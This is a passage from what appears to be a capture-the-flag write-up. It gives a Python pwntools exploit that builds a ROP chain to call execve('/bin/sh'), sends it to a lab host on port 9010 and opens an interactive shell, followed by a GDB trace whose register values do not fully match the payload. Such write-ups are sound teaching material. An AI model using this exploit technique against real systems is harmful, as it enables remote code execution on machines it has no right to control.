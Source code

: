 ```python
- .data
- pop rsi; ret;
- 0 (no args)
- pop rdx; ret;
- 0 (no env vars)
- syscall; ret;

syscall( 59, "/bin/sh", 0, 0 ) => execve("/bin/sh",0,0)

"""

payload=flat([
    # Stage 1
	padding.encode(),
	data,
    #pop_rbp_ret,
    pop_rax_ret,
    _bin_sh,
    mov_rbp_rax_ret,
    dummy,
    dummy,
    dummy,
    # Stage 2
    pop_rax_ret,
	execve_sysno,
	pop_rdi_ret,
    data,
    pop_rsi_ret, # args
    0,
    pop_rdx_ret, # env vars
    0,
	syscall_ret
])


REMOTE, PORT = '10.10.51.133', 9010

#io=process([exe])
#io=gdb.debug([exe], gdbscript=gdbinit)
io=remote(REMOTE, PORT)

# Send after `Now try to pwn me without libc 😏\n`
io.sendlineafter(b'\x20\x4e\x6f\x77\x20\x74\x72\x79\x20\x74\x6f\x20\x70\x77\x6e\x20\x6d\x65\x20\x77\x69\x74\x68\x6f\x75\x74\x20\x6c\x69\x62\x63\x20\xf0\x9f\x98\x8f\x0a', payload)
io.interactive()

```

With the **GDB** debugger, it is possible to visualize the created ROP chain.

`gdb`
```text
 ► 0x401eaa <main+73>              nop    
   0x401eab <main+74>              leave  
   0x401eac <main+75>              ret                                <_nl_find_msg+483>
    ↓
   0x4035a3 <_nl_find_msg+483>     pop    rdi     RDI => 59
   0x4035a4 <_nl_find_msg+484>     pop    rbp     RBP => 0x68732f6e69622f
   0x4035a5 <_nl_find_msg+485>     ret                                <_dl_get_origin+46>
    ↓
   0x47c34e <_dl_get_origin+46>    mov    rsi, rbp                          RSI => 0x68732f6e69622f
   0x47c351 <_dl_get_origin+49>    syscall  <SYS_<unk_140731699266416>>
   0x47c353 <_dl_get_origin+51>    cmp    eax, 0xfffff000
   0x47c358 <_dl_get_origin+56>    ja     _dl_get_origin+152          <_dl_get_origin+152>
```